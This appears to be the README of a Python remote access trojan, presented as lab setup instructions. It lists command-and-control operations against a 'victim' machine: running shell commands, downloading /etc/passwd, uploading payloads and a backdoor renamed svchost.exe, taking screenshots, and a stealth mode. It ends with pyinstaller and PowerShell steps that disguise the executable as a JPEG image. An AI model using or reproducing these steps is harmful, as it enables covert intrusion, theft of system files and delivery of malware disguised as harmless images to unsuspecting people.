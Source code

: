 # Lab Setup Instructions:

On Attacker VM (C2 Server):


pip install pyautogui
python rat_client.py
On Victim VM:


python rat_server.py
Operation Guide:


# Execute command on victim
RAT> shell whoami

# Download file from victim
RAT> download /etc/passwd

# Upload malware to victim
RAT> upload ./payload.exe C:\\Windows\\Temp\\payload.exe

# Capture victim screen
RAT> screenshot

# Remove RAT from victim
RAT> kill

# Exit C2
RAT> exit

# List active sessions
RAT> sessions

# Switch to specific session
RAT> switch abc123

# Take screenshot with custom name
RAT> screenshot victim_desktop.jpg

# Upload with verification
RAT> upload backdoor.exe C:\\Windows\\Temp\\svchost.exe

# Enable stealth mode
RAT> stealth on



# Package Instructions
> pyinstaller --onefile --noconsole --name "image.jpeg" --add-data "image.jpeg;." wrapper.py
>
> $imageBytes = [System.IO.File]::ReadAllBytes("image.jpeg")
> 
> $exeBytes = [System.IO.File]::ReadAllBytes("pyRAT\dist\image.jpeg.exe")
> 
> [System.IO.File]::WriteAllBytes("FINAL_image.jpeg", $imageBytes + $exeBytes)


